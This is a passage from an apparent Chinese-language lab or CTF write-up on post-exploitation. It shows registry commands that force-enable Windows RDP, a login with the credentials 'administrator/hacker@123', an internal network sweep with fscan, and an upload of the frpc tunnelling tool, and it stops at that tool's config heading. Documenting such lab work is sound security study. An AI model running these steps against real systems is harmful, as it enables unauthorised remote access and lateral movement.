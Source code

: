 ![image-20241124001026093](https://image.201068.xyz/assets/writeup/image-20241124001026093.png)

### 远程rdp

```bash
netstat -ano | findstr 3389

#开启3389端口远程桌面
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
#关闭3389端口
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 11111111 /f
```



```bash
mstsc

192.168.26.100

administrator/hacker@123
```

![image-20241124002045547](https://image.201068.xyz/assets/writeup/image-20241124002045547.png)

![image-20241124001956765](https://image.201068.xyz/assets/writeup/image-20241124001956765.png)

### 上传fscan.exe

```bash
fscan.exe -h 192.168.0.0/16 > 1.txt
```



```bash
(icmp) Target 192.168.26.101  is alive
[*] LiveTop 192.168.26.0/24  段存活数量为: 2
[*] Icmp alive hosts len is: 12

192.168.26.101:22 open
192.168.26.101:21 open
192.168.26.101:888 open
192.168.26.101:80 open

[*] WebTitle http://192.168.26.101     code:200 len:918    title:None
```

http://192.168.26.101

### 上传frpc.exe

#### frpc.ini
